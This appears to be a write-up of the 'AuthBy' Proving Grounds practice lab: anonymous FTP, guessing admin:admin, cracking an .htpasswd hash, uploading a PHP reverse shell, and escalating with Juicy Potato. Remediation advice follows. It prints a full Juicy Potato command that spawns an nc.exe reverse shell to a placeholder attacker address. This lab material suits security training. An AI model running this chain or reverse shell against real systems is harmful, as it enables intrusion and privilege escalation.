



# AuthBy — Proving Grounds

| | |
|---|---|
| **Platform** | Proving Grounds (Practice) |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Status** | ✅ Practice machine, no overlap with the OSCP exam pool |
| **Key techniques** | Anonymous FTP credential guessing, offline hash cracking, `SeImpersonatePrivilege` (Juicy Potato) |

---

## TL;DR

AuthBy's FTP server allows anonymous login, and a quick credential guess
(`admin:admin`) against the same FTP service pulls down web server config
files containing a password hash. Cracking that hash gets a working website
login, from which a PHP web shell uploaded via FTP gets code execution.
Privilege escalation is a straightforward `SeImpersonatePrivilege` abuse —
Juicy Potato — since the box is old enough that newer, patched Potato
variants don't apply.

---

## Recon & Enumeration

```bash
sudo nmap -p- -sCV <TARGET_IP>
```



FTP stood out as the entry point worth probing first.

---

## Foothold / Initial Access

Anonymous FTP login worked, and browsing the anonymous share revealed
account names (including `admin`). Trying the obvious `admin:admin`
credential pair against the same FTP service succeeded, giving access to
`.htpasswd`/`.htaccess` files

 — which contained a password hash for another
account.

Cracking the hash offline with John recovered a working password, which
logged into the website directly. With authenticated access to the site, a
PHP reverse shell (Ivan Sincek's) was uploaded through FTP and triggered via
its URL, landing a shell as the web service account.

---

## Privilege Escalation

`whoami /priv` showed **`SeImpersonatePrivilege`** enabled — the standard
signal for a Potato-family exploit. Because the target OS was old enough
(Windows Server 2008-era) that the modern, patched mitigations don't apply,
the classic **Juicy Potato** technique still works: it abuses a COM
server/DCOM activation quirk to coerce a SYSTEM-privileged connection, which
a listening exploit binary intercepts and impersonates.

The exact CLSID needed for a working COM server on this OS version was
looked up from a public reference list, then combined into the full exploit
invocation to spawn a reverse shell as SYSTEM:

```
JuicyPotatox86.exe -l 1360 -p C:\windows\system32\cmd.exe -a "/c C:\path\to\nc.exe -e cmd.exe <ATTACKER_IP> 1234" -t * -c {CLSID}
```



---

## Lessons Learned

- **Anonymous FTP is worth probing for more than just files** — it's also a
  free login-guessing surface, and default/weak creds on the same service
  that hosts config files is a very common real-world chain.
- **`.htaccess`/`.htpasswd` files leaking through any accessible share are a
  direct credential source** — always pull and inspect them when found.
- `SeImpersonatePrivilege` + an old Windows Server build = check whether the
  classic Juicy Potato technique (rather than a newer variant) applies; CLSID
  choice is OS-version-specific.

---

## Remediation

- Disable anonymous FTP access entirely, and never reuse the same weak
  credential pair across services.
- Never expose `.htaccess`/`.htpasswd` or other web server configuration
  files through a file share.
- Patch to a Windows version where SeImpersonatePrivilege-based COM
  hijacking (Potato-family) is mitigated, and avoid running web services
  under accounts that hold that privilege unnecessarily.

---

**Machine:** [Proving Grounds — AuthBy](https://portal.offsec.com/labs/play)
